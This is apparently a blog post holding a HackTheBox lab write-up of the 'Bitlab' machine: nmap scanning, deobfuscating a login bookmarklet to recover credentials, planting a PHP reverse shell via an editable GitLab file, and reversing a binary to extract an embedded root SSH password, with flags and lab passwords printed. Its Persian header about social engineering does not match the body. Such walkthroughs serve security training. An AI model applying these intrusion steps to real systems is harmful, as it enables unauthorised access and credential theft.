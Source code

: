 ```yaml
---
layout: post
title: مهندسی اجتماعی
subtitle: "روش های جمع آوری اطلاعات از افراد مختلف و استفاده ابزاری از آن هارا در اینجا دنبال کنید"
description: >-
  تست
image: >-
  /assets/img/main.jpg
optimized_image: >-
  /assets/img/main.jpg
category: start
tags:
  - start
author: rezaduty
paginate: true
---
```



# Summary

It was Medium box worth 30 points   
IP : `10.10.10.114`  
Easy user we got it after low enumeration we got it from web interface GitLab running on it and root part was so funny with reverse engineering

# Information Gathering

first lets add `10.10.10.114` to `/etc/hosts` file to bypass any dns records  

> Nmap


As usual we Have to see the open ports So this mission for nmap   

```Bash
root@kali:~# nmap -sVC bitlab.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 03:56 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.89s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```
I got only `22 and 80` So lets see the web interface
But before we go there is a lot of info in `robots.txt` like `/autocomplete/users /search /api /admin /profile /dashboard /projects/new /groups/new /groups/*/edit /users /help`  
A lot of subs we can visit it so lets see what's inside /help maybe we can get something useful  
Oh there is `HTML` file called `bookmarks.html` So lets see what's inside  
![image](/assets/img/hackthebox/bitlab/help.png)

Hmmm All return to the main website but `GitLab` have javascript so wired

```javascript
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
It's obfuscation so lets deobfuscation this code using [this site](https://lelinhtinh.github.io/de4js/)
And I got this function
```javascript

javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
# PWN USER

What the hack we got username and passwd damn it's so easy  
`clave:11des0081x`

So lets harry up and try to login
After login we got access on `bitlab.htb/api`  
After some Enumeration I got `bitlab.htb/snippets/1`  

```php

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

So lets try to edit in `root/profile` there is `index.php` file lets add our reverse shell there  

Yup we got **easy to hack easy to build**   

Now lets do php called Whatnow.php and put the php code we got Above and run it `php Whatnow.php`  

Wow we got username and Base64(passwd) So lets decode it and get to try `su -u clave` or ssh with this creds   
There is do decode for it !! so lets use it as we see  

```bash
root@kali:~# ssh clave@bitlab.htb
The authenticity of host 'bitlab.htb (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bitlab.htb,10.10.10.114' (ECDSA) to the list of known hosts.
clave@bitlab.htb's password:
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```

# PWN ROOT

We have exe file on the clave directory

```Bash
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$
```
let's take this program in our Host   
```bash
root@kali:~# scp clave@bitlab.htb:/home/clave/RemoteConnection.exe /root/Desktop/
clave@bitlab.htb's password:
RemoteConnection.exe                                     100%   14KB   6.0KB/s   00:02    
```
And lets use IDA pro for this mission  
After using IDA pro I got something so wired  
![image](/assets/img/hackthebox/bitlab/putty.png)
It's calling putty.exe WHY !!?   
I think it's will ssh as root on the box !!?   
Let's try to get run it with breakpoint in `jnz       short  loc_401662`  
and we got it it's calling putty to connect with the box as root using ssh `ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^"`
So now we can connect as root let's try it  
```
root:Qf7]8YSV.wDNF*[7d?j&eD4^
```
```bash
root@kali:~# ssh root@bitlab.htb
root@bitlab.htb's password:
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# pwd
/root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~#
```
